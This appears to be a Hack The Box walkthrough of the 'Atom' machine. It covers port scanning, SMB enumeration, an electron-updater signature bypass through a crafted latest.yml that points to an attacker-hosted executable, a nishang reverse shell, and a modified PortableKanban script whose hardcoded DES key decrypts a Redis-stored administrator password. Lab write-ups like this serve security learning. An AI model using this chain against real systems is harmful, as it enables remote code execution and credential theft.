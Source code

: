 # Hackthebox - Atom

FIrst I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.171.222
Host is up (0.17s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 80 which is HTTP is open, so I go to my browser and open the web page.
![](webpage.png)

Port 443 which is HTTPs is also open, but it gives me the same web page. I started gobuster on the HTTP page.
![](gobuster.png)

Gobuster gets a directory called releases and it lists a ZIP file.
![](reelases.png)

I downloaded the zip file and see that it contains an exe file. I am in a linux machine so I decided to leave this first and enumerate other ports first.
![](heedunzip.png)

I use Smbmap to enumerate port 445 which is SMB and got an interesting share called **Software_Updates**.
![](smb.png)

I try listing it and got a pdf file.
![](listingshare.png)

I use Smbclient to download the pdf file to my machine.
![](smbl=clientdonlot.png)

The pdf says that the application is build using electron-builder which has a few exploits, but the pdf says that the application has no server interaction at all which means I can't use those exploits. So I was stuck for quite some time and then I reread the pdf again and got interested in the update mechanism.
![](pdfqa.png)

I started Googling if there is anyway we can exploit the update mechanism which is in the pdf and found an article (https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html). We can create a yml file that will point to our own executable file. So I create an executable file that will download a ps1 file from nishang (https://github.com/samratashok/nishang). I use Invoke-PowershellTcp for my reverse shell ps1 file.
![](msfvenonishang.png)

I create the file called **latest.yml**.
```bash
version: 1.2.3
path: http://10.10.14.49:8000/s'hell.exe
sha512: wJ01rJjmM/Si7sAZyxD9ySOT+pOG8Ms/ER9UIkztMOKn/1aI1plEXOWxp90wNhLDkJt17zTV13V0EaVTqnL1+Q==
```

I upload the yaml file to the client1 folder.
![](uploadyaml.png)

Wait a bit and got a reverse shell with powershell and I can get the user flag.
![](powershell.png)

Next I use winpeas to enumerate the box. There is a directory called PortableKanban which is interesting.
![](winpe.png)

I immediately search about this software and found an exploit (https://www.exploit-db.com/exploits/49409). The problem is the script is in python and python isn't installed on the box. So I take a step back and try to poke around the box myself.

At the beginning, I started Nmap to scan for all ports.
```bash
Nmap scan report for 10.129.171.229
Host is up (0.17s latency).
Not shown: 65529 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
5985/tcp open  wsman
6379/tcp open  redis
```
There is redis on the box, so I find it's configuration file and got a password.
![](redispass.png)

I connect to the server using redis-cli, and dump all the keys available.
![](keysredis.png)

When getting one of the key, it gives me an encrypted password.
![](enpass.png)

I can't identify what kind of encryption this is, but the exploit from PortableKanban says that it can decrypt passwords from he PortableKanban.pk3 file. So I just take a wild guess and try to decrypt it using the exploit script.

I modify the script to just decrypt the encrypted password from redis.
```bash
import json
import base64
from des import * #python3 -m pip install des
import sys

def decode(hash):
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print("{}".format(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi")))
```

Running the script and it gives me a password.
![](pythonexploit.png)

If you look back at the Nmap result, it says that Windows Remote Protocol is open. I use this password and evil-winrm to login to the box as Administrator.
![](rooted.png)
